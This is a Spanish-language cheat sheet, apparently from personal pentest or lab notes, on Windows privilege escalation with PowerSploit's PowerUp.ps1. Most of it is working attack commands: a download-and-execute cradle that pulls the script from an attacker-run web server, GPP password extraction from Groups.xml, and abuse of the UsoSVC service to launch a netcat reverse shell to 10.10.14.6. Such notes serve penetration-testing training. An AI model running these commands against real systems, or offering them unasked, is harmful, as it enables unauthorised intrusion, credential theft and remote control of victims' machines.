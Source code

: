 ** Powersploit de Github **
`git clone https://github.com/PowerShellMafia/PowerSploit.git`

Elevación de privilegios en un sólo paso.
> Modificar archivo /powersploit/privesc/powerUp.ps1
> Colocar en la última línea: 
> `Invoke-AllChecks`
> Servidor web en máquina local desde la que se ofrece el archivo powerUp.ps1
> `python -m SimpleHTTPServer 80`
> Descargar archivo powerUp.ps1 desde máquina objetivo con el módulo Internet Explorer. Se ejecutará automáticamente y no habrá que cargar el módulo en Powershell gracias a la modificación en el archivo previamente realizada.
> `IEX(New-Object Net.WebClient).downloadString('http://<own_ip>:<puerto>/powerUp.ps1')`

Elevación de privilegios en dos pasos.
> Transferimos el archivo PowerUp.ps1 sin modificar:
> `Invoke-WebRequest http://10.10.14.6:8000/PowerUp.ps1 -o PowerUp.ps1`
> Importamos el módulo:
> `Import-Module ./PowerUp.ps1`
> Ejecutar función específica del módulo ya cargado:
> `Invoke-AllChecks | Out-File -Encoding ASCII checks.txt`

** Posibles elementos a buscar tras la ejecución de PowerUp.ps1 **
Buscar archivo Groups.xml. 
> Estos archivos pueden contener credenciales donde la contraseña está hasheada, pero puede crackearse con "gpp-decrypt". Este archivo puede leerse en la ruta:
> `type "C:\ProgramData\Microsoft\Group Policy\History\{xxxx}\Machine\Preferences\Groups\Groups.xml`

Servicio --> AbuseFunction: Invoke-ServiceAbuse -Name 'UsoSVC'.
> Este servicio permite añadir un comando a ejecutar.
> Añadir comando para recibir una reverse-shell con netcat.
> Compartir binario nc.exe, transferirlo a la máquina objetivo y ejecutar un cmd.
> Ejecutar servicio:
> `Invoke-ServiceAbuse -Name 'UsoSVC' -Command "C:\Windows\Temp\nc.exe -e cmd 10.10.14.6 443"` 